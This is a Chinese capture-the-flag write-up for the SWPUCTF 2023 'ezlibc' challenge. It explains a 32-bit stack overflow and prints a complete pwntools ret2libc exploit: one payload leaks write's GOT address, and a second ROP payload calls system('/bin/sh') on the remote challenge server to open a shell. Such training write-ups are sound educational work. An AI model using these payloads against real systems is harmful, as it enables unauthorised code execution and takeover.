



## 基本信息

- 题目名称：[SWPUCTF 2023 秋季新生赛]ezlibc
- 题目链接：https://www.nssctf.cn/problem/4544
- 考点清单：ret2libc，GOT泄露
- 工具清单：gdb，python-pwntools，python-LibcSearcher

- payloads：详见本文末尾

## 一、看到什么

- 题目给出一个.so文件，基本确定攻击类型ret2libc
- 反汇编发现两个自定义函数，main调用dofunc。同时发现 程序懒加载机制，plt表自带了read和write两个函数



- dofunc存在read栈溢出，同时调用了plt链接的write函数



## 二、想到什么解题思路

### 第一轮

- 通过write函数将 自身地址写入标准输出 来 泄露自身libc地址
- 通过write函数地址计算libc基地址，通过`基地址+偏移量`确定system函数地址
- 通过ROP来跳转回dofunc初始地址，重复执行dofunc来利用之前获取到的地址构造gadget获取shell

## 三、尝试过程和结果记录

### 第一轮

- 获取plt表中write函数的地址

```python
from pwn import *
from LibcSearcher import *

lc = "./ezlibc"
libc_so = "./libc-2.31.so"

rmt = "node4.anna.nssctf.cn"
pt = 28289

elf = ELF(lc)
libc = ELF(libc_so)
#p = process(lc)
p = remote(rmt,pt)

write_plt = elf.plt['write']
write_got = elf.got['write']
func = elf.sym['dofunc']

padding = b'A' * 0x14

payload1 = padding + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(8)

p.recvuntil("input:")

p.send(payload1)
p.recvuntil(b'byebye')
write_addr = u32(p.recv(4))
print(hex(write_addr))
```

- 计算libc基地址，查找系统调用和shell字符串

```python
libc_base = write_addr - libc.sym['write'] # 计算libc基地址
sys = libc_base + libc.sym['system'] # 计算system地址
bin_sh_addr = libc_base + libc.search(b'/bin/sh').__next__() # 从libc里查找shell字符串
```



- 在第二次运行dofunc函数时跳转至系统调用并传参shell字符串

```python
payload2 = padding + p32(sys) + b'A'* 4 + p32(bin_sh_addr)

p.send(payload2)
```

## 四、Payload

```python
from pwn import *
from LibcSearcher import *

lc = "./ezlibc"
libc_so = "./libc-2.31.so"

rmt = "node4.anna.nssctf.cn"
pt = 28289

elf = ELF(lc)
libc = ELF(libc_so)
#p = process(lc)
p = remote(rmt,pt)

write_plt = elf.plt['write']
write_got = elf.got['write']
func = elf.sym['dofunc']

padding = b'A' * 0x14

payload1 = padding + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(8) 
# 栈溢出覆盖地址跳转至plt表记录的write函数，并传入参数write(write_got,1,8),意为将内存中got表中记录的write函数存储地址定向写到标准输出，8是地址长度

p.recvuntil(b"input:")

p.send(payload1) # 暴露write地址

p.recvuntil(b'byebye')
write_addr = u32(p.recv(4)) # 读取泄露的write地址，32位地址只有四字节

libc_base = write_addr - libc.sym['write'] # 计算libc基地址
sys = libc_base + libc.sym['system'] # 计算system地址
bin_sh_addr = libc_base + libc.search(b'/bin/sh').__next__() # 从libc里查找shell字符串

payload2 = padding + p32(sys) + b'A'* 4 + p32(bin_sh_addr)

p.send(payload2)

p.interactive()
```

